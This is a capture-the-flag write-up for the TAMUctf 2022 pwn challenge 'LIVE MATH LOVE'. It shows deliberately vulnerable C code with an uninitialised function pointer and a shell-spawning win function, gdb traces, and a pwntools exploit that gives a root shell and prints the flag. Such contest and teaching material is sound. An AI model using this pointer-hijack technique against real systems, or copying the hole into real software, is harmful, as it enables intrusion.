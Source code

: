 ## LIVE MATH LOVE

> Points: 194
>
> Solves: 40

### Description:
> Author: Lane
>
> I made this cool calculator! Hope there's nothing vulnerable in here
>
> SNI: live-math-love

### Attachments:
> live_math_love.zip
> 
> live_math_love
>
> live_math_love.c

### C code:

```c
#include <stdio.h>
#include <stdlib.h>

void win()  {
    system("/bin/sh");
}

void add() {
    float a;
    float b;
    scanf("%f\n", &a);
    scanf("%f\n", &b);

    printf("%f\n", a+b);
}

void sub() {
    float a;
    float b;
    scanf("%f\n", &a);
    scanf("%f\n", &b);

    printf("%f\n", a-b);
}

void mult() {
    float a;
    float b;
    scanf("%f\n", &a);
    scanf("%f\n", &b);

    printf("%f\n",a*b);
}


void menu() {
    printf("LIVE MATH LOVE\n");
    printf("1. Add\n");
    printf("2. Subtract\n");
    printf("3. Multiply\n");
    printf("> ");

    void (*action)();
    int choice;
    scanf("%d\n", &choice);

    if (choice == 1) {
        action = add;
    } else if (choice == 2) {
        action = sub;
    } else if (choice == 3) {
        action = mult;
    }

    action();


    menu();
}


void main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    menu();

}
```

## Analysis:

If Action is set to anything other than 1,2,3, a Segmentation fault will occur because the action variable is not set.
```
mito@ubuntu:~/CTF/TAMUctf_2022/Pwn_LIVE_MATH_LOVE$ ./live_math_love
LIVE MATH LOVE
1. Add
2. Subtract
3. Multiply
> 4
1
Segmentation fault (core dumped)
```

If we enter `1` as shown below, it will be called to `0x3f800000`. `0x3f800000` is a floating point value of `1`.
```c
mito@ubuntu:~/CTF/TAMUctf_2022/Pwn_LIVE_MATH_LOVE$ gdb -q ./live_math_love
Reading symbols from ./live_math_love...
(No debugging symbols found in ./live_math_love)
gdb-peda$ run
Starting program: /home/mito/CTF/TAMUctf_2022/Pwn_LIVE_MATH_LOVE/live_math_love 
LIVE MATH LOVE
1. Add
2. Subtract
3. Multiply
> 1
0
1
0
1.000000
LIVE MATH LOVE
1. Add
2. Subtract
3. Multiply
> 1

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x4013b0 (<__libc_csu_init>:	push   r15)
RCX: 0x0 
RDX: 0x3f800000 
RSI: 0x31 ('1')
RDI: 0x7fffffffd9b0 --> 0x7fffffff0030 --> 0x0 
RBP: 0x7fffffffdf00 --> 0x7fffffffdf20 --> 0x7fffffffdf30 --> 0x0 
RSP: 0x7fffffffdee8 --> 0x401338 (<menu+169>:	mov    eax,0x0)
RIP: 0x3f800000 
R8 : 0x31 ('1')
R9 : 0x0 
R10: 0x7ffff7f5cac0 --> 0x100000000 
R11: 0x246 
R12: 0x401080 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe020 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10293 (CARRY parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x3f800000
```

We can start `/bin/sh` by typing `5.883707532277683e-39` instead of `1` above. `5.883707532277683e-39` is the value of the floating point format `struct.unpack('!f', '\x00\x40\x11\x62')[0]` of the address(`0x401162`) of the win function.

```c
mito@ubuntu:~/CTF/TAMUctf_2022/Pwn_LIVE_MATH_LOVE$ ./live_math_love
LIVE MATH LOVE
1. Add
2. Subtract
3. Multiply
> 1
0
5.883707532277683e-39
0
0.000000
LIVE MATH LOVE
1. Add
2. Subtract
3. Multiply
> 1
$ $  

```


## Exploit code:
The Exploit code is below.
```python
from pwn import *

context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './live_math_love'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  s = remote("tamuctf.com", 443, ssl=True, sni="live-math-love")
else:
  s = process(BINARY)
  
s.sendlineafter("> ", "1")
s.sendline("0")
s.sendline("5.883707532277683e-39") # struct.unpack('!f', '\x00\x40\x11\x62')[0]
s.sendline("0")
s.sendlineafter("> ", "1")

s.interactive()
```

## Results:
The execution result is as follows.
```bash
mito@ubuntu:~/CTF/TAMUctf_2022/Pwn_LIVE_MATH_LOVE$ python3 solve.py r
[*] '/home/mito/CTF/TAMUctf_2022/Pwn_LIVE_MATH_LOVE/live_math_love'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to tamuctf.com on port 443: Done
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
$ ls -l
total 28
-rw-r--r-- 1 root root    77 Apr 13 04:56 docker_entrypoint.sh
-rw-r--r-- 1 root root    20 Apr  9 22:54 flag.txt
-rwxr-xr-x 1 root root 16904 Apr 13 04:55 live_math_love
$ cat flag.txt
gigem{m47h3m461c4l!} 
```

## Reference:

